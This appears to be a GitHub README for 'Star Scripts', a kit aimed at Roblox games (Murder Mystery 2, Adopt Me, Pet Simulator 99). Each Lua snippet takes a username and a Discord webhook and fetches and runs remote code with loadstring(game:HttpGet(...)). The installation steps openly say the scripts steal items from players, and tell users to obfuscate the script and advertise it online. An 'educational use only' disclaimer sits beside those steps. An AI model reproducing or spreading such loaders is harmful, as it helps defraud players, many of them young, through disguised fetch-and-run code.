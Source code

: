 # Star Script's 💫

Welcome to the Official Star Scripts Repository on GitHub. This collection features scripts for popular Roblox games such as Murder Mystery 2, Adopt Me, and Pet Simulator 99.

## Disclaimer ✅
Please use these scripts responsibly and in accordance with Roblox's terms of service. Unauthorized use of scripts may result in account suspension or banning. Note that I am not responsible for any use with these scripts as these are educational use only. Thanks!

## Features 🌠
- **Game Compatibility**: Scripts available for various popular Roblox games.
- **User-Friendly**: Easy to integrate and use within your Roblox experience.
- **Regular Updates**: Scripts are maintained and updated to ensure compatibility with game changes.

## Available Scripts ☄️
- **Murder Mystery 2** 🔪
- **Adopt Me** 🐕
- **Pet Simulator 99** 🐈

## Scripts 📚
**Adopt Me** 😺
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("adopt",true))()
```
**Murder Mystery 2** 🔫
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("murder",true))()
```
**Pet Simulator 99** 🐶
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("pet",true))()
```

## Installation Instructions 📩
1. Find the script you want to steal items from players on.
2. Fill out necessary imformation.
3. Obfuscate the full script with the information.
4. Copy the obfuscated script and advertise it online.

## Contribution 💁
Contributions are welcome! If you have scripts to add or improvements to suggest, please submit a pull request.

## Support 🙌
For any questions or issues, please open an issue in the repository or refer to the documentation provided with each script.
